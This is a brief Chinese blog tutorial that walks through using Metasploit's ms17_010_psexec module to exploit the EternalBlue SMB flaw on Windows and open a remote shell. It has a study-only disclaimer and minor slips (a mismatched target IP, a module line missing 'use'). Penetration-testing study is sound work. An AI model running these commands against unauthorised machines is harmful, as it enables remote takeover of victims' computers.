 ```yaml
---
title: 【笔记】攻击具有 永恒之蓝 漏洞的Windows
date: 2019-11-16 17:14:28
tags:
---
```


## 前言

永恒之蓝（英语：EternalBlue）是美国国家安全局开发的漏洞利用程序，于2017年4月14日被黑客组织影子掮客泄漏。该工具利用445/TCP端口的档案分享协议的漏洞进行散播。[维基百科](https://wikipedia.hk.wjbk.site/zh-hans/永恒之蓝)

<!-- more -->

## 声明

<font color="#FF0000">本文章仅用于网络安全渗透测试学习，请勿用于其他用途</font>

## 准备工作

- 安装并配置好的 Metasploit Framework （[传送门](https://feiju12138.github.io/2019/11/16/安装配置Metasploit-Framework)）

- 一台有"永恒之蓝"漏洞的Windows电脑

## 开始攻击

- 由于本文为测试，所以默认已知被攻击的电脑ip为"192.169.1.1"

- 启动 Metasploit Framework

``` bash
msfconsole
```

![01.png](/images/20191116171428/01.png)

- 查看攻击永恒之蓝漏洞的工具

``` bash
search ms17_010
```

- 使用其中一款工具，输入"y"确认

``` bash
exploit/windows/smb/ms17_010_psexec
```

![02.png](/images/20191116171428/02.png)

- 设置目标ip

``` bash
set RHOST 192.168.1.1
```

- 开始攻击

``` bash
exploit
```

- 如果攻击成功，即可获得控制权

## 取得Shell

- 取得shell后，即可在目标电脑执行命令行操作

``` bash
shell
```

## 完成

## 参考文献

[知乎——周毅刚](https://zhuanlan.zhihu.com/p/35793142)

